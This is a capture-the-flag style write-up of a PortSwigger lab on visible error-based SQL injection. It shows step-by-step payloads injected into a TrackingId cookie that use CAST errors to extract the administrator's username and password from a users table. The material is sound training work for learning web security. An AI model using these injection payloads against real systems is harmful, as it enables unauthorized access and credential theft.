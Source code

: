 # Write-up: Visible error-based SQL injection
Lab-Link: <https://portswigger.net/web-security/sql-injection/blind/lab-sql-injection-visible-error-based>  
Difficulty: PRACTITIONER  


## Lab description

![alt text](<img/1.png>)

## Steps

### Enumeration

In tracking cookie, we see that the cookie contains a `TrackingId` parameter. As the lab description mentions that the error is visible, we can try to manipulate this parameter to trigger an error.
Append `'` single quote which results in error response. This verbose error reveals the full query which has a extra single quote, we can use `--` comment to remove this error.

### Exploitation

Now we need to return password. We can use Select 1, to test.
`uy88fXwVlwBrEnaK' AND SELECT 1--`, this gives us the error.

So we CAST the value to integer.
`uy88fXwVlwBrEnaK' AND CAST((SELECT 1) AS int)--`, but this gives an error that 'AND must be type boolean, not type integer'. So, we change the query to
`uy88fXwVlwBrEnaK' AND 1=CAST((SELECT 1) AS int)--`, this results in a successful response.

Now we check the users table.
`uy88fXwVlwBrEnaK' AND 1=CAST((SELECT username FROM users) AS INT)--`, this gives an error because their is character limitation. So we can just remove the tracking id.

`' AND 1=CAST((SELECT username FROM users) AS INT)--`, this gives error that `more than one row returned by a subquery used as an expression`.

Now, if we add LIMIT 1, we can get the first username in error response.
`' AND 1=CAST((SELECT username FROM users LIMIT 1) AS INT)--`, this gives the username `administrator`.
Reponse : `ERROR: invalid input syntax for type integer: "administrator"`

So, now we do similar to get password.
`' AND 1=CAST((SELECT password FROM users LIMIT 1) AS INT)--`, this gives the error `ERROR: invalid input syntax for type integer: "k77zpfjgtyqvmomjh8dy"`.

This gives us the password `k77zpfjgtyqvmomjh8dy` and we can now login as administrator.

Hence, the lab is sovled.

![alt text](img/2.png)
